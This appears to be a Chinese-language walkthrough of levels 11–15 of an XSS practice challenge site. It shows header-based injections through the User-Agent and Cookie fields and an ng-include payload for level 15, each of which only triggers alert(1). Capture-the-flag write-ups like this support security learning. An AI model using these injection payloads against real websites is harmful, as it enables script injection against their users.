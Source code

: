 ```html
<input name="t_ua" value="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36 Edg/86.0.622.51" type="hidden">
```

好了，这就去改 User-Agent

```http
GET /level11.php?keyword=good%20job! HTTP/1.1
User-Agent: "onclick="alert(1)" type="button"
```

## level13

```html
<input name="t_cook" value="call me maybe?" type="hidden">
```

cook... cookie?

burp抓包(只展示了关健部分)：

```http
GET /level13.php?keyword=good%20job! HTTP/1.1
Cookie: user=call+me+maybe%3F
```

果然在cookie的地方看到了

直接改

```http
GET /level13.php?keyword=good%20job! HTTP/1.1
Cookie: user="onclick="alert(1)" type="button"
```

## level14

好像环境有问题

## level15

看到njInclude的注释，直接开搜，看看怎么用      [ng-include](https://www.w3schools.com/angular/ng_ng-include.asp)

看起来像是和php的include差不多，但是还是不懂

直接看WP，说参数是src

上面的用法里又发现了src，所以是要包含一个文件，也许可以用其他网站的xss漏洞进行攻击.

```html
<ng-include src="filename" onload="expression" autoscroll="expression" ></ng-include>
```

payload：（包含了第一题）

```html
https://xss.angelo.org.cn/level15.php?src="level1.php?name=<a href=javascript:alert(1)>xss</a>"
```
